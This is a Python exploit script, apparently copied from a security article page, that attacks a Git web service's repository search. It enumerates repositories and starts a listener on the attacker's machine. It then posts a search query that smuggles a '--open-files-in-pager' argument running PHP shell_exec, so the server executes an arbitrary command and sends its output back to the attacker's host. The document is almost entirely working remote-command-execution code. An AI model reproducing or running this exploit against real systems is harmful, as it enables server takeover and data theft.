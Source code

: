 ```
if len(repos) == 0:
    print "[-] No repos"
    os._exit(0)

for repo in repos:
    print "[+] Found repo {}".format(repo)
    r = requests.get("{}{}".format(url, repo))
    files = re.findall(r'href="[^"]+blob/master/([^"]+)"', r.text)
    for file in files:
        r = requests.get("{}{}/raw/master/{}".format(url, repo, file))
        print "[+] Found file {}".format(file)
        print r.text[0:100]
        search_url = "{}{}/tree/{}/search".format(url, repo, r.text[0:1])        
        break

if not search_url:
    print "[-] No files in repo"
    os._exit(0)

print "[+] Search using {}".format(search_url)

class GetHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse.urlparse(self.path)
        print "[+] Command response"
        print urllib.unquote_plus(parsed_path.query).decode('utf8')[2:]
        self.send_response(200)
        self.end_headers()
        self.wfile.write("OK")
        os._exit(0)

    def log_message(self, format, *args):
        return

def exploit_server():
    server = HTTPServer((your_ip, your_port), GetHandler)
    server.serve_forever()

print "[+] Start server on {}:{}".format(your_ip, your_port)
t = threading.Thread(target=exploit_server)
t.daemon = True
t.start()
print "[+] Server started"

r  = requests.post(search_url, data={'query':'--open-files-in-pager=php -r "file_get_contents(\"http://{}:{}/?a=\".urlencode(shell_exec(\"{}\")));"'.format(your_ip, your_port, command)})

while True:
    time.sleep(1)

```

[**参考链接**](https://www.anquanke.com/post/id/107336)
